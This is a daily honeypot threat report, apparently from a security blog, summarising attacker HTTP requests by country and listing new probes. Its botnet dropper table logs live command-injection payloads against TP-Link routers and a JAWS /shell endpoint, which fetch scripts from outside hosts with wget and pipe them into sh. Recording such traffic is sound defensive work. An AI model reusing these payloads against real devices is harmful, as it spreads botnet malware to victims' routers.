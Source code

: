```yaml
---
title: "Report: 2025-08-30 "
date: 2025-08-30
desciption: "Report: 2025-08-30" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-30 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 11 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 7 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 624 requests were recorded during the day, originating from 11 different countries, with a peak of 263 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| GB               | Germany            |
| DE               | Germany            |
| US               | Germany            |
| US               | Germany            |
| SG               | Germany            |
| US               | Germany            |
| HK               | Germany            |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                     |
|:----------------|:--------------------------------------------------------------------------------------------------------------------------------------------|
| 119.206.51.78   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 218.158.250.34  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh) HTTP/1.1        |
| 58.40.8.206     | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh) HTTP/1.1        |
| 68.113.110.78   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 8.222.194.137   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                        |
| 4.38.142.6      | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 58.40.8.206     | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 121.167.125.180 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 103.130.82.30   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh) HTTP/1.1        |
| 220.124.188.145 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh) HTTP/1.1        |
| 156.244.27.246  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                     |
|----:|----------------------:|:--------------------------------------------------------------------------------------------------------------------------------------------|
|  36 |                     2 | POST /securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript HTTP/1.1 |
| 106 |                     1 | GET /param.ini HTTP/1.1                                                                                                                     |
| 109 |                     1 | GET /.env.sh HTTP/1.1                                                                                                                       |
| 132 |                     1 | GET /XNMj HTTP/1.1                                                                                                                          |
| 133 |                     1 | GET /6Ewj HTTP/1.1                                                                                                                          |
| 153 |                     1 | GET /database/accounts/accountManagement.php HTTP/1.0                                                                                       |
| 264 |                     1 | GET /index.php?-s HTTP/1.1                                                                                                                  |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   263 | GB                 |
|  1 |                   144 | US                 |
|  2 |                    38 | FR                 |
|  3 |                    27 | SC                 |
|  4 |                    26 | NL                 |
|  5 |                    24 | DE                 |
|  6 |                    19 | RU                 |
|  7 |                    11 | AU                 |
|  8 |                    11 | CH                 |
|  9 |                     7 | CN                 |
| 10 |                     6 | KR                 |
| 11 |                     6 | TW                 |
| 12 |                     6 | CA                 |
| 13 |                     5 | ZA                 |
| 14 |                     5 | UA                 |
| 15 |                     4 | JP                 |
| 16 |                     4 | HK                 |
| 17 |                     4 | BG                 |
| 18 |                     4 | SG                 |
| 19 |                     2 | ID                 |
| 20 |                     2 | BE                 |
| 21 |                     1 | ES                 |
| 22 |                     1 | MC                 |
| 23 |                     1 | BR                 |
| 24 |                     1 | PT                 |
| 25 |                     1 | TH                 |
| 26 |                     1 | BD                 |
